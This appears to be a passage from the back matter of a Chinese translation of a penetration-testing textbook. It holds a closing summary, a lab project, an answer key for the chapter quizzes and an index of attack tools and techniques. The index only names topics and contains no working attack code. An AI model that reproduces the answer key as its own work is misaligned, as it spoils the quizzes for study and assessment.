本节提供有关如何解决和缓解渗透测试中发现的缺陷的详细信息。这些应足够详细，以便任何有能力的专业技术人员能够纠正你发现的问题。这是报告的关键部分。仅仅说明存在问题是不够的；你必须提供明确的指导，说明如何解决这些问题。

## Summary

在本章中，你看到了小型网络的渗透测试大纲。必须强调的是，本章介绍的内容是基线，是渗透测试的最低要求。你可能已经注意到，例如，我们没有测试蓝牙问题。你的测试通常会比这更广泛；然而，这里提供的大纲是你可用于任何渗透测试的。只要根据你的环境需要进行扩展即可。

除本章外，建议你还参考以下资源：

- 编写渗透测试报告：https://www.sans.org/reading-room/whitepapers/testing/writing-penetration-testing-report-33343
- 对组织进行渗透测试：https://www.sans.org/reading-room/whitepapers/auditing/conducting-penetration-test-organization-67
- 渗透测试报告：https://www.offensive-security.com/reports/sample-penetration-testing-report.pdf
- 渗透测试方法论：https://www.owasp.org/index.php/Penetration_testing_methodologies

## PROJECT

### PROJECT 1: The Penetration Test

这是小型团队的理想项目，特别是当本书用作课堂教材时。要进行此测试，你需要一个具有以下最低配置的实验室：

- 1. 一个网关路由器。这可以是一个便宜的商用路由器，类似于人们为家庭购买的那种。
- 2. 一台运行多个服务的服务器。你可以使用 Microsoft Server 的试用版，或 Linux 服务器。确保你运行了一些数据库、网站和 FTP 服务。
- 3. 三台工作站。这些可以是在一台计算机上运行的虚拟机。同样，你可以使用像 Oracle VirtualBox 这样的免费虚拟机，并为各个工作站使用试用版。
- 4. 确保所有机器都在同一个网络上。


现在执行本章概述的渗透测试，并撰写报告。如果这是讲师主导的课程的一部分，建议讲师加入几个特定的安全问题，并根据学生发现这些问题的程度来部分评分。

如果您没有实验室访问权限，但希望自行执行类似测试，那么答案是遵循步骤 3，但确保所有目标机器都在虚拟机中。如果这些都在单个主机上，您可能一次只能启动并测试一台。

## 附录 A
## 章节多选题答案
## 第 1 章
## 多选题
- 1. 答案：A. 黑盒测试是一种测试，其中测试人员获得的信息绝对最少。
- 答案 B 不正确，因为灰盒测试意味着提供了一些信息。
- 答案 C 和 D 不是渗透测试，因此不正确。
- 2. 答案：A. 18 USC 2701 是关于访问设备的。其他 USC，即联邦法律，涵盖计算机法的其他方面，因此不是正确答案。
- 3. 答案：C. 安全审计主要涉及报告、政策和文件审查。
- 答案 A 和 D 不正确，因为它们是渗透测试，需要实际尝试入侵系统。
- 答案 B 不正确，因为漏洞评估不是此场景的一部分。
- 4. 答案：D. OSCP 完全是实操的。其他测试主要是（或完全是）多选题。
- 5. 答案：B. 使用不同的工具或技术有助于提高质量，但由于您有一个团队，您也可以使用不同的团队成员来检查工作。
- 答案 A 不正确，因为它没有利用团队的优势。
- 答案 C 不正确，因为它没有使用不同的工具。A 和 C 都是部分答案，因此不正确。
- 答案 D 不正确，因为不存在“认证工具”这种说法。

## 项目
Project 1：项目是开放式的。严格来说没有对错答案；关键在于您能获取多少信息。

Project 2：项目是开放式的。严格来说没有对错答案；关键在于您能获取多少信息。

## 第 2 章
- 1. B
- 2. A
- 3. D
- 4. B
- 5. D
- 6. 答案：7 个阶段，漏洞分析在第 4 阶段。
- 7. D
- 8. A
- 9. C
- 10. C

## 第 3 章
- 1. D
- 2. D
- 3. A
- 4. C
- 5. B
- 6. A
- 7. B
- 8. D
- 9. A

## 第 4 章
- 1. B
- 2. C
- 3. C
- 4. A
- 5. D
- 6. B
- 7. B

## 第 5 章
- 1. D
- 2. C
- 3. B
- 4. C
- 5. B
- 6. C
- 7. C
- 8. A
- 9. C
- 10. D

## 第 6 章
- 1. A
- 2. B
- 3. C
- 4. B
- 5. B
- 6. A
- 7. D
- 8. C
- 9. A

## 第 7 章
- 1. B
- 2. A
- 3. B
- 4. C
- 5. C
- 6. A
- 7. B

## 第 8 章
- 1. B
- 2. A
- 3. C
- 4. A
- 5. D

## 第 9 章
- 1. C
- 2. B
- 3. A
- 4. D
- 5. C

## 第 10 章
- 1. C
- 2. B
- 3. D
- 4. A
- 5. D

## 第 11 章
- 1. B
- 2. A
- 3. D
- 4. B

## 第 12 章
- 1. A
- 2. C
- 3. D
- 4. B

## 第 13 章
- 1. C
- 2. A
- 3. D
- 4. A
- 5. D

## 第 14 章
- 1. B
- 2. C
- 3. A
- 4. C
- 5. B
- 6. A
- 7. B

## 第 15 章
- 1. D
- 2. B
- 3. B
- 4. A
- 5. D
- 6. B

## 第 16 章
- 1. C
- 2. B
- 3. D
- 4. A

## 第 17 章
- 1. D
- 2. A
- 3. B
- 4. B

## 第 18 章
- 1. B
- 2. A
- 3. C
- 4. D
- 5. A
- 6. C

## 索引
## 符号
- /bin 目录，226
- /boot 目录，229
- /dev 目录，228–229
- /etc 目录，226–228
- /etc/group 目录，227
- /etc/inittab 目录，227–228
- /etc/motd 目录，228
- /etc/passwd 目录，226–227
- /etc/shadow 目录，227, 252–253
- /proc 目录，230–231
- /root 目录，226
- /sbin 目录，226
- /sys 目录，236–238
- /usr 目录，229
- /var 目录，230
- >（重定向）命令，209
- 3DES（三重 DES），51–52
- 802.11 标准，367
- 4728 条目（Windows Security log），131
- 4741 条目（Windows Security log），131
- 4782 条目（Windows Security log），131
- 4902 条目（Windows Security log），131

## A
- 抽象，338
- ACK 扫描，84
- 主动侦察
  - 定义，83
  - 枚举，88–91
  - 使用 Maltego，94–96
  - 端口扫描，83–87
  - 在示例项目中，388
  - 在统一的标准方法中，35
  - 使用 Wireshark，91–94
- 临时测试，5
- 添加用户账户，219–221
- 管理员账户（Windows），
  - 查找，139
- AES（高级加密标准），52–53
- Aircrack，187–188, 373–374
- AirJack，375
- Alexa 网站，97
- 算法，50
- 修改病毒，122
- Angry IP Scanner，88–89
- 匿名 FTP 扫描，298
- 反网络犯罪法（沙特阿拉伯），15
- 反病毒杀手脚本，119
- Metasploit API，342–343
- 应用层 DoS，281
- 应用程序，枚举，307
- 应用程序日志（Windows），130
- APT（中国高级持续性威胁）
  - 攻击，363
- Archive.org，79–80
- arp 命令，312–313
- Ruby 中的数组，332
- 非对称加密
  - 与对称密码的比较，54
  - 定义，54–55
  - Diffie-Hellman，58
  - 椭圆曲线，58
  - RSA，55–58
- Atbash 密码，48
- 攻击。参见 exploits；hacking；malware
- 审计，3
- Autoruns，146
- auxiliary，288
- AVCTP（音频/视频分发传输协议），371
- Blue bugging，380
- Blue printing，380
- Blue smacking，380
- Blue snarfing，380
- Blue sniffing，380
- BlueBorne，381
- Bluejacking，380
- Bluetooth，370–371
  - 攻击，380
  - 手机工具，380–383
- BNEP（Bluetooth 网络封装协议），371
- /boot 目录，229
- 启动过程
  - Linux，入侵，254–255
  - Windows，128–129
- 启动扇区病毒，105
- 入侵
  - 示例项目，388–389
  - 在统一的标准方法中，35
- 浏览器利用框架（BeEF），174
- 浏览器，配置代理服务器，167–171
- 暴力攻击，48
- BSS（基站系统），379
- BSSID（基本服务集标识符），368
- BTS（基站收发信台），379
- BuiltWith，78–79
- Burp Suite，165–173

## B
- back 命令，291
- 后台进程，219
- 回退键入侵，255
- BackTrack Linux，258
- 基站系统（BSS），379
- 基站收发信台（BTS），379
- 基本服务集标识符（BSSID），368
- 批处理文件。参见脚本病毒
- BeEF（浏览器利用框架），174
- Bell 实验室，205
- bg 命令，219
- BH BlueJack，381
- /bin 目录，226
- 生日悖论，69–70
- 黑盒测试，7
- Black Hat，355
- 黑帽黑客，5
- BLE Scanner，382
- 分组密码
  - 定义，51
  - DES，51
- Blowfish，53

## C
- C 编程语言，205
- 凯撒密码，47–48
- Cain and Abel，64, 88, 147–149, 375
- 相机。参见网络摄像头
- 职业
  - 商业渗透测试，20
  - 政府/国家防御，20–21
  - 执法，21
  - 安全管理，20
- 载波，65
- 级联样式表（CSS）利用，300–302
- case 语句，335–336
- CBC（密码块链接）模式，54
- cd 命令，208, 314–315
- CEH（认证道德黑客），17, 360
- 移动术语，379–380
- 认证，16, 359–361。另见资格
  - CEH，17, 360
  - CISSP，18–19, 360
  - CREST，33
  - GPEN，17, 360
  - Mile2，18, 360
  - OSCP，18, 360
  - PPT，19
  - 准备，19
- 认证信息系统安全专业人员（CISSP），18–19, 360
- CFAA（计算机欺诈和滥用法）（美国），12–13
- 更改。另见修改用户账户
  - 目录，208
  - 文件所有权，217–218
  - 文件权限，218–219, 249–250
  - MAC 地址，269–270
- 通道，65
- 中国高级持续性威胁（APT）攻击，363
- chmod 命令，218–219, 249–250
- chntpw 工具，137
- 选定明文攻击，69
- chown 命令，217–218
- Chrome，配置代理服务器，167–169
- 密码块链接（CBC）模式，54
- 密文，50
- 仅密文攻击，69
- CISSP（认证信息系统安全专业人员），18–19, 360
- class 语句，338
- Ruby 中的类变量，331
- 冲突，59, 70
- 命令。另见语句（Ruby）
  - Linux
    - bg，219
    - cd，208
    - chmod，218–219, 249–250
    - chown，217–218
    - fg，219
    - finger，209–210
    - grep，210–211
    - kill，215–216
    - locate，242
    - ls，207–208
    - mkdir，216
    - mv，216
    - nice，241–242
    - ps，211–212
    - pstree，212–214
    - 重定向（>），209
    - rm，216
    - rmdir，216
    - top，214–215
    - touch，240–241
    - useradd，219–221
    - userdel，221–222
    - usermod，222–223
    - users，223–224
    - who，224–225
    - 通配符，251–252
  - Metasploit，291–292
- 商业渗透测试职业，20
- 常见漏洞和暴露（CVE），3–4, 179
- CompTIA Security+，360
- 计算机欺诈和滥用法（CFAA）（美国），12–13
- Ruby 中的条件语句，334–336


- **保密性, 11**
- **Linux 中的配置文件, 226–228**
- **配置**
  - 为代理服务器配置浏览器, 167–171
  - iptables, 245–246
  - Kali Linux, 259–260
- **连接扫描, 84**
- **Ruby 中的常量, 331**
- **Cookie 污染, 165**
- **互质, 56**
  - 乘法, 56
- **在 SQL 脚本注入中避免的对策, 161–162**
- **进程的 CPU 利用率, 214–215**
- **破解者, 5**
- **破解**
  - 密码学。参见密码分析
  - 密码, 142–145
    - 生日悖论, 69–70
    - 使用 Cain and Abel, 64, 147–149
    - 使用 John the Ripper, 145, 268
    - 使用 LCP, 143
    - 使用 Offline NT Registry Editor, 142
    - 使用 ophcrack, 144–145
  - Pass-the-hash 攻击, 63–64
  - 实际应用, 70–71
    - 使用 pwdump, 143–144
    - 使用彩虹表, 61–63, 144
  - 用于 Wi-Fi, 279
- **创建目录, 216**
- **CREST 考试, 33**
- **crond, 238–239**
- **crontab 文件, 238–239**
- **跨站请求伪造 (CSRF), 164**
- **跨站脚本攻击 (XSS), 162–164**
- **crss.exe, 130**
- **密码分析**
  - 选择明文攻击, 69
  - 仅密文攻击, 69
  - 定义, 68
  - 频率分析, 68
  - 已知明文攻击, 69
  - 实际应用, 70–71
  - 相关密钥攻击, 69
  - 成功类型, 68
- **密码学, 46–47**
  - 非对称加密, 54–55
    - Diffie-Hellman, 58
    - 椭圆曲线, 58
    - RSA, 55–58
  - 密码分析, 68
    - 选择明文攻击, 69
    - 仅密文攻击, 69
    - 频率分析, 68
    - 已知明文攻击, 69
    - 实际应用, 70–71
    - 相关密钥攻击, 69
  - 数字签名, 58–59
  - 哈希, 59
    - 生日悖论, 69–70
    - MAC 和 HMAC, 60
    - MD5, 59
  - Pass-the-hash 攻击, 63–64
  - 彩虹表, 61–63
  - RIPEMD, 60
  - SHA, 59–60
  - Windows 密码, 60
  - 历史, 47
    - Atbash 密码, 48
    - 凯撒密码, 47–48
    - 多字母表替换, 49
    - 栅栏密码, 50
  - 信息资源, 71–72
  - 隐写术, 65
    - 历史, 65–66
    - 术语, 65
    - 工具, 66–68
对称加密, 51
  3DES, 51–52
  相对于非对称密码的优势, 54
  AES, 52–53
  Blowfish, 53
  DES, 51
    修改, 53–54
  RC4, 53
术语, 50
CryptoLocker, 109
加密器病毒, 106
CryptoWall, 109
CSRF (跨站请求伪造), 164
CSS (层叠样式表) 漏洞利用, 300–302
CVE (通用漏洞和暴露), 3–4, 179
网络犯罪。参见法律问题
网络威胁情报
  定义, 196
  Internet Storm Center, 197
  OSINT, 197–198
  Phishtank, 197
  threatcrowd.org, 197
网络战, 361–363
## D
守护进程 (Linux)
  crond, 238–239
  syslogd, 248
暗网, 355–358
数据加密标准 (DES), 51
数据库
  修改, 160–161
  关系数据库结构, 156–157
DCOM (分布式组件对象模型) 漏洞利用, 305
ddfs, 237
DDoS (分布式拒绝服务), 282
Wi-Fi 去认证, 279
DeepSound, 66–67
DEF CON, 354–355
DELETE 命令, 155
删除
  目录, 216
  文件, 216
  用户账户, 221–222
拒绝服务 (DoS)
  工具, 282–283
  众所周知的攻击
    应用层 DoS, 281
    DDoS, 282
    DHCP 耗尽, 281
    HTTP Post DoS, 281
    PDoS, 282
    Smurf/Fraggle, 281
    SYN Flood, 281
  何时测试, 280
DES (数据加密标准), 51
桌面操作, 315–316
/dev 目录, 228–229
设备文件, 228–229
DHCP 耗尽, 281
Diffie-Hellman, 58
数字签名, 58–59
目录
  更改, 208
  创建, 216
  删除, 216
  Linux
    /bin, 226
    /boot, 229
    /dev, 228–229
    /etc, 226–228
    /proc, 230–231
    /root, 226
    /sbin, 226
    /sys, 236–238
    /usr, 229
    /var, 230
  列出内容, 207–208
- 使用病毒禁用 Internet 访问, 118
- NIST 800-115 标准中的发现技术, 28
- 对客户端系统的破坏，伦理问题, 12
- 分布式组件对象模型 (DCOM) 漏洞利用, 305
- 分布式拒绝服务 (DDoS), 282
- Dmitry, 264-265
- 漏洞扫描文档存储库
  - CVE, 179
  - NIST, 179
  - OWASP Top 10 列表, 179-180
- DoS (拒绝服务)
  - 工具, 282-283
  - 众所周知的攻击
    - 应用层 DoS, 281
    - DDoS, 282
    - DHCP 耗尽, 281
    - HTTP Post DoS, 281
    - PDoS, 282
    - Smurf/Fraggle, 281
    - SYN Flood, 281
  - 何时测试, 280
- DoSHTTP, 283
- 下载文件, 314
- driverfs, 237
- 驱动器，格式化, 321
## E
- ECB (电子密码本) 模式, 54
- ECC (椭圆曲线密码学), 58
- EDGE (GSM 演进增强数据速率), 380
- eLiTeWrap, 120-122
- 电子邮件客户端，病毒传播, 103
- 电子邮件密码，被泄露账户列表, 71
- 封装, 338
- 编码器, 288
- 加密。参见密码学
- end 语句, 334
- 无限循环脚本, 118
- GSM 演进增强数据速率 (EDGE), 380
- 枚举, 88-91
  - 应用程序, 307
  - 已登录用户, 306
- 错误消息
  - 漏洞利用, 305
  - 网站, 155-156
- 间谍活动, 361-363
- /etc 目录, 226-228
- /etc/group 目录, 227
- /etc/inittab 目录, 227-228
- /etc/motd 目录, 228
- /etc/passwd 目录, 226-227
- /etc/shadow 目录, 227, 252-253
- 道德黑客, 5
- 伦理问题, 10-11
  - 保密性, 11
  - 对客户端系统的破坏, 12
  - 关于技能的诚实, 12
- 欧盟指令 2013/40, 15
- 欧拉函数, 56
- 可执行文件，交付, 318-321
- 执行阶段，NIST 800-115 标准, 28-29
- exit 命令, 292
- 漏洞利用
  - 应用程序枚举, 307
  - CSS, 300-302
  - 定义, 288
  - 驱动器格式化, 321
  - 错误, 305
  - 文件格式, 303
  - 图标 DLL 加载器, 305
  - Linux 攻击, 322-323, 324-325
  已登录用户枚举, 306
  有效载荷交付, 318–321
  后渗透, 306–309, 312–318
    应用程序枚举, 307
    桌面操作, 315–316
    文件上传/下载, 314
    IP 和 MAC 地址发现, 312–313
    键盘记录, 317–318
    在 Linux 上, 325
  已登录用户枚举, 306
  麦克风访问, 308, 317
  导航命令, 314–315
  网络发现, 313
  进程发现, 307, 314
  VM 检查, 306–307
  网络摄像头访问, 308, 317
  远程桌面, 304
  搜索, 292–293
  虚拟机, 306–307
  基于 Web 的攻击, 323–324
  通过 Office 的 Windows 攻击, 322–323
  Windows Server 2008 R2 攻击, 322
  Windows XP DCOM, 305
  编写, 350–351
    检查现有漏洞利用, 346–348
    扩展现有漏洞利用, 348–350
    Metasploit API, 342–343
    模板, 344–346
explorer.exe, 130
示例项目中的外部测试, 388
  主动侦察, 388
  入侵, 388–389
  被动侦察, 388
## F
FakeAV, 109–110
Feistel 密码, 51
fg 命令, 219
文件格式漏洞利用, 303
文件系统，sysfs, 236–238
文件
  更改所有权, 217–218
  更改权限, 218–219, 249–250
  检查属性, 240–241
  删除, 216
  可执行文件，交付, 318–321
  重要 Windows 文件, 129–130
  移动, 216
  Ruby，扩展, 330
  搜索, 242
  上传/下载, 314
FIN 扫描, 84
finger 命令, 209–210
指纹识别, 156
Firefox，为代理服务器配置, 169–170
防火墙
  定义, 243–244
  iptables, 244–246
  类型, 243–244
Flame, 111, 362–363
足迹追踪, 5
for 循环, 336
强制浏览, 164
格式化驱动器, 321
ForwardedEvents 日志 (Windows), 130
Fraggle 攻击, 281
分片有效载荷病毒, 106
与访问设备相关的欺诈和相关活动法 (美国), 14
频率分析, 68
FTP 服务器扫描, 299
Ruby 中的函数, 337–338
## G
Gameover ZeuS, 109
GET 命令, 155
gets 语句, 331, 333–334


## H
-   幽灵诱捕器，270–272
-   GIAC 渗透测试员 (GPEN)，17, 360
-   全球移动通信系统 (GSM)，380
-   Ruby 中的全局变量，331
-   GNOME（GNU 网络对象模型环境），231
-   GNU，205
-   使用 Google 搜索进行侦察，82–83
-   政府/国防职业，20–21
-   GPEN（GIAC 渗透测试员），17, 360
-   灰盒测试，9
-   灰帽黑客，5
-   grep 命令，210–211
-   组，/etc/group 目录，227
-   全球移动通信系统 (GSM)，380
-   GUI（图形用户界面）
  -   Linux，231
    -   GNOME，231
    -   KDE，231–232
  -   恶意软件创建工具，116–117
-   黑客，6
-   黑客攻击
  -   会议，354–355
  -   文化，6
  -   暗网，355–358
  -   法律问题，12
    -   《计算机欺诈和滥用法案》(CFAA)（美国），12–13
    -   《与接入设备相关的欺诈及相关活动法》（美国），14
    -   《身份盗窃执法与赔偿法》（美国），14
    -   国际法，14–16
    -   州法律（美国），14
    -   《非法访问存储通信法规》（美国），13–14
-   Linux，254
  -   回退键攻击，255
  -   启动攻击，254–255
  -   与 Metasploit 配合使用，322–323, 324–325
  -   与渗透测试对比，4–5
  -   技术
    -   DoS（拒绝服务），280–283
    -   社会工程学，279–280
    -   Wi-Fi 测试，274–279。另见无线
  -   术语，5–6
  -   网站
    -   Cookie 污染，165
    -   跨站脚本 (XSS)，162–164
    -   CSRF，164
    -   强制浏览，164
    -   LDAP 注入，165
    -   参数篡改，164
    -   SQL 脚本注入，156–162
    -   工具，165–174
-   Wi-Fi
  -   Aircrack，373–374
  -   AirJack，375
  -   Cain and Abel，375
  -   Kismet，375
  -   KRACK，375
  -   NetStumbler，372
-   Windows
  -   chntpw 工具，137
  -   与 net 命令配合使用，139–142
  -   net user 脚本，137–138
  -   哈希传递攻击，137
  -   sid2user 工具，139
  -   系统权限登录，138
  -   通过 Office，322–323
-   hal.dll，130
-   硬件木马，108
-   哈希收集，64
-   Hashcat，268–269
-   哈希
  -   生日悖论，69–70
  -   定义，59
  -   Linux 密码，63
  -   MAC 和 HMAC，60
  -   MD5，59
  -   哈希传递攻击，63–64, 137
  -   彩虹表，61–63
  -   RIPEMD，60
  -   SHA，59–60
  -   Windows 密码，60, 135–136
-   哈希消息认证码 (HMAC)，60
-   HCI（主机控制器接口），371
-   HEAD 命令，155
-   Ruby 中的‘Hello World’脚本，330–331
-   高轨道离子炮，283
-   历史
  -   密码学的，47
  -   Atbash 密码，48
  -   凯撒密码，47–48
  -   多字母表替换，49
  -   栅栏密码，50
  -   Kali Linux 的，258
  -   Linux 的，204–207
  -   Metasploit 的，288
  -   隐写术的，65–66
  -   Unix 的，204–206
  -   Windows 的，127–128
-   注册表配置单元（Windows 注册表），132
-   HLR（归属位置寄存器），379
-   HMAC（哈希消息认证码），60
-   归属位置寄存器 (HLR)，379
-   对技能的诚实，12
-   主机控制器接口 (HCI)，371
-   热点。另见无线
  -   创建，274–277
  -   Kali Linux 作为，277–278
  -   测试安全性，278–279
-   HTTP（超文本传输协议）
  -   消息，154–155
-   HTTP Post DoS，281
-   混合测试，5

## I
-   图标 DLL 加载器漏洞利用，305
-   《身份盗窃执法与赔偿法》（美国），14
-   if 语句，334–335
-   include 语句，346
-   工业病毒，108
-   2010 年信息系统犯罪法（约旦），15
-   继承，338
-   inittab 文件，227–228
-   输入验证，158–159
-   安装
  -   Metasploit Framework，343
  -   Ruby 环境，328
-   Ruby 中的实例变量，331
-   交互式 Ruby Shell (IRB)，343
-   示例项目中的内部测试，389–390
-   国际法，14–16
-   使用病毒禁用 Internet 访问，118
-   为代理服务器配置 Internet Explorer，170–171
-   Internet Storm Center，197
-   Invisible Secrets，66
-   获取 IP 地址，312–313
-   ipchains，244
-   iptables，244–246
-   IRB（交互式 Ruby Shell），343
-   ISC2 安全大会，355
-   ISO 27002 标准，39–40

## J
-   干扰 Wi-Fi，279
-   日本网络犯罪法律，15–16
-   JavaScript，162–163
-   jobs 命令，292
-   John the Ripper，145, 268
-   约旦网络犯罪法律，15

## K
-   K 桌面环境 (KDE)，231–232
-   Kali Linux
  -   配置，259–260
  -   历史，258
  -   作为热点，277–278
  -   工具
    -   Dmitry，264–265
    -   幽灵诱捕器，270–272
    -   Hashcat，268–269
    -   John the Ripper，268
    -   macchanger，269–270
    -   recon-ng，261–263
    -   Sparta，266–267
-   Kaspersky，363
-   KDE（K 桌面环境），231–232
-   键盘记录，317–318
-   密钥空间，48
-   密钥化加密哈希函数，60
-   密钥，50
-   kill 命令，215–216, 292
-   终止进程，215–216
-   Kismet，375
-   klogd，246–247
-   Knoppix Linux，258
-   已知明文攻击，69
-   KRACK，375

## L
-   L2CAP（逻辑链路控制和适配协议），371
-   LanHelper，186
-   LanManager (LM)，135
-   笔记本电脑作为热点，275–277
-   启动 Metasploit，288–290
-   执法职业，21
-   LCP，143
-   LDAP 注入，165
-   最低有效位 (LSB)，65
-   法律问题，12
  -   《计算机欺诈和滥用法案》(CFAA)（美国），12–13
  -   《与接入设备相关的欺诈及相关活动法》（美国），14
  -   《身份盗窃执法与赔偿法》（美国），14
  -   国际法，14–16
  -   州法律（美国），14
  -   《非法访问存储通信法规》（美国），13–14
-   Metasploit 中的库，350
-   LINK 命令，155
-   链路管理协议 (LMP)，370
-   Linux。另见 Kali Linux
  -   BackTrack Linux，258
  -   命令
    -   bg，219
    -   cd，208
    -   chmod，218–219, 249–250
    -   chown，217–218
    -   fg，219
    -   finger，209–210
    -   grep，210–211
    -   kill，215–216
    -   locate，242
    -   ls，207–208
    -   mkdir，216
    -   mv，216
    -   nice，241–242
    -   ps，211–212
    -   pstree，212–214
    -   重定向 (>)，209
    -   rm，216
    -   rmdir，216
    -   top，214–215
    -   touch，240–241
    -   useradd，219–221
    -   userdel，221–222
    -   usermod，222–223
    -   users，223–224
    -   who，224–225
    -   通配符，251–252
  -   守护进程
    -   crond，238–239
    -   syslogd，248
  -   目录
    -   /bin，226
    -   /boot，229
    -   /dev，228–229
    -   /etc，226–228
    -   /proc，230–231
    -   /root，226
    -   /sbin，226
    -   /sys，236–238
    -   /usr，229
    -   /var，230
  -   GUI，231
    -   GNOME，231
    -   KDE，231–232
  -   黑客攻击，254
    -   回退键攻击，255
    -   启动攻击，254–255
    -   与 Metasploit 配合使用，322–323, 324–325
  -   历史，204–207
  -   Knoppix Linux，258
  -   密码
    -   /etc/shadow 目录，252–253
    -   哈希，63
  -   安全
    -   iptables，244–246
    -   脚本编写，248–252
    -   syslog，246–248
-   列出
  -   目录内容，207–208
  -   进程，211–212
-   LMP（链路管理协议），370
-   load 命令，291
-   Ruby 中的局部变量，331
-   locate 命令，242
-   已登录用户枚举，306
-   逻辑炸弹，114–115
-   逻辑链路控制和适配协议 (L2CAP)，371
-   使用系统权限登录 (Windows)，138
-   日志
  -   syslog，246–248
  -   Windows，130–131
-   长期演进 (LTE)，380
-   Ruby 中的循环，336–337
-   低轨道离子炮，282
-   ls 命令，207–208, 314–315
-   lsass.exe，130
-   LSB（最低有效位），65
-   LTE（长期演进），380

## M
-   MAC（消息认证码），60
-   MAC 地址
  -   更改，269–270
  -   过滤，369
  -   获取，312–313
-   macchanger，269–270
-   MacDefender，110
-   宏病毒，104–105
-   大型机，渗透测试，378–379
-   make_nops 函数，348
-   恶意基于 Web 的代码，113–114
-   Maltego，94–96
-   恶意软件
  -   渗透示例项目，388–389
  -   创建


- GUI 工具，116–117
- 原因，102, 115
- 脚本病毒，117–120
- 技能等级，115–116
- 特洛伊木马，120–122
- 病毒变异，122
- 在 Windows 中检测，145–147
- 逻辑炸弹，114–115
- 恶意基于 Web 的代码，113–114
- 在注册表中，133–134
- rootkit，113
- 病毒
  - 引导扇区，105
  - CryptoLocker/CryptoWall，109
  - 定义，102–103
  - FakeAV，109–110
  - Flame，111
  - Gameover ZeuS，109
  - 硬件特洛伊木马，108
  - 工业，108
  - MacDefender，110
  - 宏，104–105
  - 传播方法，103–104
  - 勒索软件，106–107
  - Rombertik，109
  - 隐蔽，105–106
  - Teardrop 勒索软件，110
  - 特洛伊木马，104, 111–112
  - Troj/Invo-Zip，110
  - 追踪爆发的网站，108–109
  - 零日漏洞利用，145
- 手册页，229
- Ruby 中的数学运算符，332–334
- MBSA（Microsoft 基线安全分析器），188
- MD5，59
- 消息认证码（MAC），60
- 每日消息（motd），228
- Metasploit，286–287
- API，342–343
- 命令，291–292
- 漏洞利用
  - 应用枚举，307
  - CSS，300–302
  - 桌面操作，315–316
  - 磁盘格式化，321
  - 错误，305
  - 检查现有漏洞利用，346–348
  - 扩展现有漏洞利用，348–350
  - 文件格式，303
  - 文件上传/下载，314
  - 图标 DLL 加载器，305
  - IP 和 MAC 地址发现，312–313
  - 键盘记录，317–318
  - Linux 攻击，322–323, 324–325
  - 已登录用户枚举，306
  - 麦克风访问，317
  - 导航命令，314–315
  - 网络发现，313
  - 有效载荷投递，318–321
  - post，306–309, 312–318
  - 进程发现，314
  - 远程桌面，304
  - 搜索，292–293
  - 编写模板，344–346
  - 虚拟机，306–307
  - 基于 Web 的攻击，323–324
  - 网络摄像头访问，317
  - 通过 Office 对 Windows 的攻击，322–323
  - Windows Server 2008 R2 攻击，322
  - Windows XP DCOM，305
  - 编写，350–351
- 历史，288
- 启动，288–290
- 库，350
- 用于 SCADA 系统，378
- 对象类型，288

## N
- 虚拟机设置，287–288
- 漏洞扫描
  - Anonymous FTP 扫描，298
  - FTP 服务器扫描，299
  - SMB 扫描器，295–296
  - SQL Server 扫描，296–297
  - SSH 服务器扫描，297–298
- 安装 Metasploit Framework，343
- 方法论，7
  - 黑盒测试，7
  - 灰盒测试，9
  - 标准的统一方法，33–34
  - 白盒测试，7–8
- 麦克风利用，308, 317
- Microsoft 基线安全分析器（MBSA），188
- Mile2 认证，18, 360
- Minix，206
- mkdir 命令，216
- 移动设备渗透测试
  - Bluetooth 攻击，380
  - Bluetooth 手机工具，380–383
  - 蜂窝术语，379–380
- 创建移动热点，275–277
- 移动交换中心（MSC），379
- 修改用户账户，222–223。另请参见 更改
- 模数，56
- 单字母表替换，48
- motd（每日消息），228
- 移动文件，216
- MP3Stego，66
- MSC（移动交换中心），379
- MSF Core，350
- msfupdate 命令，292
- msfvenom，318–321
- 多字母表替换，49
- Multics（多路复用信息和计算服务），205
- 互质相乘，56
- mv 命令，216
- 国家行为者攻击，363
- 国家标准与技术研究所。另请参见 NIST
- 国家安全局信息安全评估方法（NSA-IAM），30–31
- 利用导航命令，314–315
- 近场通信（NFC），372
- Nessus，189–192
- 嵌套 if 语句，334–335
- net 命令，139–142
- net service 命令，141
- net share 命令，140
- net user 脚本，137–138
- net users 命令，140
- net view 命令，140
- Netcraft，77–78
- netsh 命令，141–142
- netstat 命令，313
- NetStumbler，372
- 网络发现
  - 使用 Metasploit，313
  - 在 NIST 800–115 标准中，28
- 网络枚举。另请参见 枚举
- 网络扫描器，186
  - LanHelper，186
  - 无线扫描器/破解器，187–188
- Nexpose，192
- NFC（近场通信），372
- nice 命令，241–242
- NIST（国家标准研究所）
  - 漏洞库，179
- NIST 800–12 修订版 1 标准，40–41
- NIST 800–14 标准，41–42
- NIST 800–115 标准，27–29
  - 执行阶段，28–29
  - 规划阶段，27–28
  - 执行后阶段，29
- nmap，83–86
- 不可否认性，58–59
- nop sleds，348
- NSA-IAM（国家安全局信息安全评估方法），30–31
- NT Hash，136
- NT LAN 管理器（NTLM），135, 136
- ntbootdd.sys，129
- ntdetect.com，129
- ntoskrnl.exe，129
- NULL 扫描，84

## O
- OBEX（对象交换），371
- 面向对象编程，338
- 进攻性安全认证专业人员（OSCP），18, 360
- 通过 Office 入侵 Windows，322–323
- 离线 NT 注册表编辑器，142
- 洋葱路由，355
- 开源情报（OSINT）工具，96–97, 197–198
- Ruby 中的运算符，332–334
- ophcrack，63, 144–145
- OSCP（进攻性安全认证专业人员），18, 360
- OSINT（开源情报）工具，96–97, 197–198
- OSINT 网站，96–97, 197–198
- 输出管道，209
- OWASP（开放 Web 应用安全项目），39
  - Top 10 列表，179–180
  - ZAP（Zed Attack Proxy），192–194
- 更改文件所有权，217–218

## P
- 包过滤防火墙，243
- 数据包嗅探器
  - tcpdump，181–182
  - Wireshark，91–94, 182–185
- Pally，382–383
- 参数篡改，164
- 被动侦察
  - 使用 Archive.org，79–80
  - 使用 BuiltWith，78–79
  - 定义，77
  - 使用 Google 搜索，82–83
  - 使用 Netcraft，77–78
  - 在示例项目中，388
  - 使用 Shodan，80–82
  - 使用社交媒体，82
  - 在标准的统一方法中，35
- 哈希传递攻击，63–64, 137
- 密码
  - 破解，142–145
  - 生日悖论，69–70
  - 使用 Cain and Abel，64, 147–149
  - 使用 John the Ripper，145, 268
  - 使用 LCP，143
  - 使用离线 NT 注册表编辑器，142
  - 使用 ophcrack，144–145
  - 哈希传递攻击，63–64
  - 实际应用，70–71
  - 使用 pwdump，143–144
  - 使用彩虹表，61–63, 144
  - 用于 Wi-Fi，279
  - 电子邮件，泄露账户列表，71
  - Linux
    - /etc/shadow 目录，252–253
    - 哈希，63
  - Windows
